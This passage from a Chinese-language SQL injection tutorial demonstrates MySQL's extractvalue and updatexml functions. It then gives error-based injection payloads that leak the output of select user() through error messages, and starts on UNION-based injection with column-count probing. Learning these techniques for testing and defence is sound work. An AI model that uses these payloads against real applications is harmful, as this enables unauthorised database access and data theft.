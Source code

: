 下面是正常用法：

```sql
mysql> select extractvalue('<a><b>222222</b></a>', '/a/b');
+----------------------------------------------+
| ExtractValue('<a><b>222222</b></a>', '/a/b') |
+----------------------------------------------+
| 222222                                       |
+----------------------------------------------+
1 row in set (0.00 sec)
mysql> select extractvalue('<a href="sss"></a><a href="2333"></a>','/a/attribute::href');
+----------------------------------------------------------------------------+
| extractValue('<a href="sss"></a><a href="2333"></a>','/a/attribute::href') |
+----------------------------------------------------------------------------+
| sss 2333                                                                   |
+----------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

那么怎么用它来攻击呢？

```sql
select extractvalue(1, concat(0x7e, (select user()), 0x7e));
```

`select user()` 的输出被直接输出到了错误流里面。

`updatexml(xml_document, Xpath_string, new_value)`：

改变文档中符合条件的节点的值。

```sql
mysql> SELECT updatexml('<a><b>222222</b></a>', '/a/b','2333');
+--------------------------------------------------+
| updatexml('<a><b>222222</b></a>', '/a/b','2333') |
+--------------------------------------------------+
| <a>2333</a>                                      |
+--------------------------------------------------+
1 row in set (0.00 sec)
```

和上面的使用方式差不多。

`select updatexml(1, concat(0x7e, (select user()), 0x7e), 1);`

#### 联合查询注入

如果页面上可以显示 SQL 语句查询的结果的话……

```sql
mysql> select * from user where id=1 union select 111;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
mysql> select * from user where id=1 union select 111,222;
+------+----------+
| id   | username |
+------+----------+
| 1    | aaa      |
| 111  | 222      |
+------+----------+
2 rows in set (0.00 sec)
```
